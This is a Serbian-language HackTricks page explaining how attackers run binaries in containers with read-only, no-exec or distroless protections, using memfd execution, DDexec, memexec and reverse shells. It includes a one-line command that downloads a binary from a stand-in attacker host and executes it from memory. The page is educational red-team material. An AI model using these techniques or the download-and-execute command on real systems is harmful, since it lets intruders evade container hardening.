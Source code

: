 # Bypass FS protections: read-only / no-exec / Distroless

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="https://github.com/carlospolop/hacktricks/blob/rs/.gitbook/assets/image%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1).png" alt=""><figcaption></figcaption></figure>

Ako vas zanima **hakerska karijera** i hakovanje neuhvatljivog - **zapošljavamo!** (_potrebno je tečno poznavanje pisanog i govornog poljskog jezika_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video zapisi

U sledećim video zapisima možete pronaći tehnike pomenute na ovoj stranici objašnjene detaljnije:

* [**DEF CON 31 - Istraživanje manipulacije memorijom Linuxa za prikrivanje i izbegavanje**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Skriveni upadi sa DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenario samo za čitanje / bez izvršavanja

Sve je češće naići na linux mašine montirane sa **zaštitom fajl sistema samo za čitanje (ro)**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa ro fajl sistemom jednostavno postavljanjem **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je fajl sistem montiran kao ro, **`/dev/shm`** će i dalje biti upisiv, tako da nije tačno da ne možemo pisati ništa na disk. Međutim, ovaj folder će biti **montiran sa zaštitom bez izvršavanja**, pa ako preuzmete binarni fajl ovde, **nećete moći da ga izvršite**.

{% hint style="warning" %}
Sa perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji nisu već prisutni u sistemu (kao što su backdoor-ovi ili enumeratori poput `kubectl`).
{% endhint %}

## Najlakši način zaobilaženja: Skripte

Imajte na umu da sam spomenuo binarne fajlove, možete **izvršiti bilo koju skriptu** sve dok je interpretator unutar mašine, poput **shell skripte** ako je `sh` prisutan ili **python skripte** ako je instaliran `python`.

Međutim, ovo nije dovoljno da biste izvršili vaš binarni backdoor ili druge binarne alate koje možda treba pokrenuti.

## Bypass memorije

Ako želite da izvršite binarni fajl, ali fajl sistem to ne dozvoljava, najbolji način je **izvršiti ga iz memorije**, jer se **zaštite ne primenjuju tamo**.

### FD + exec syscall bypass

Ako imate moćne skriptne motore unutar mašine, poput **Python-a**, **Perla** ili **Ruby-ja**, možete preuzeti binarni fajl za izvršavanje iz memorije, sačuvati ga u deskriptoru fajla u memoriji (`create_memfd` syscall), što neće biti zaštićeno tim zaštitama, a zatim pozvati **`exec` syscall** navodeći **fd kao fajl za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skriptu na naznačenom jeziku sa **binarnim fajlom kompresovanim i b64 enkodiranim** sa instrukcijama za **dekodiranje i dekompresovanje** u **fd** kreiran pozivom `create_memfd` syscall i poziv **exec** syscall-a za pokretanje.

{% hint style="warning" %}
Ovo ne funkcioniše u drugim skriptnim jezicima poput PHP-a ili Node-a jer nemaju **podrazumevan način pozivanja sirovih syscalls** iz skripte, pa nije moguće pozvati `create_memfd` da kreirate **memorijski fd** za čuvanje binarnog fajla.

Osim toga, kreiranje **regularnog fd** sa fajlom u `/dev/shm` neće raditi, jer vam neće biti dozvoljeno da ga pokrenete zbog primene **zaštite bez izvršavanja**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju vašeg sopstvenog procesa** tako što ćete prebrisati njegov **`/proc/self/mem`**.

Stoga, **kontrolišući asemblerski kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

{% hint style="success" %}
**DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj sopstveni **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
{% endhint %}

```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

Za više informacija o ovoj tehnici pogledajte Github ili:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodni sledeći korak nakon DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite **pokrenuti drugi binarni fajl** ne morate ponovo pokretati DDexec, već možete jednostavno pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonom kako biste prosledili nove binarne fajlove za učitavanje i pokretanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverse shell-a** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnim ciljem kao DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **jednostavniji način učitavanja binarnih fajlova** u memoriju kako bi ih kasnije izvršili. To bi čak moglo omogućiti učitavanje binarnih fajlova sa zavisnostima.

## Bypass Distroless

### Šta je distroless

Distroless kontejneri sadrže samo **apsolutno neophodne komponente za pokretanje određene aplikacije ili servisa**, poput biblioteka i zavisnosti za izvršavanje, ali isključuju veće komponente poput upravljača paketima, ljuske ili sistemskih alatki.

Cilj distroless kontejnera je **smanjenje površine napada kontejnera eliminisanjem nepotrebnih komponenti** i minimiziranje broja ranjivosti koje mogu biti iskorišćene.

### Reverse Shell

U distroless kontejneru možda **nećete čak ni pronaći `sh` ili `bash`** da biste dobili običnu ljusku. Takođe nećete pronaći binarne fajlove poput `ls`, `whoami`, `id`... sve što obično pokrećete na sistemu.

{% hint style="warning" %}
Stoga, **nećete** moći dobiti **reverse shell** ili **enumerisati** sistem kao što obično radite.
{% endhint %}

Međutim, ako kompromitovani kontejner pokreće na primer flask veb, tada je instaliran python, i stoga možete dobiti **Python reverse shell**. Ako pokreće node, možete dobiti Node rev shell, i isto važi za većinu bilo koje **skripting jezike**.

{% hint style="success" %}
Korišćenjem skriptnog jezika možete **enumerisati sistem** koristeći mogućnosti jezika.
{% endhint %}

Ako ne postoje **zaštite `read-only/no-exec`** možete zloupotrebiti svoj reverse shell da **pišete u fajl sistem vaše binarne fajlove** i **izvršite** ih.

{% hint style="success" %}
Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali možete koristiti **prethodne tehnike izvršavanja u memoriji da ih zaobiđete**.
{% endhint %}

Možete pronaći **primere** kako **iskoristiti neke RCE ranjivosti** da biste dobili **reverse shell-ove skripting jezika** i izvršili binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="https://github.com/carlospolop/hacktricks/blob/rs/.gitbook/assets/image%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hakersku karijeru** i hakovanje neuhvatljivog - **zapošljavamo!** (_potrebno je tečno poznavanje poljskog jezika u pisanju i govoru_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti svoju **kompaniju reklamiranu u HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove podnošenjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijumima.

</details>
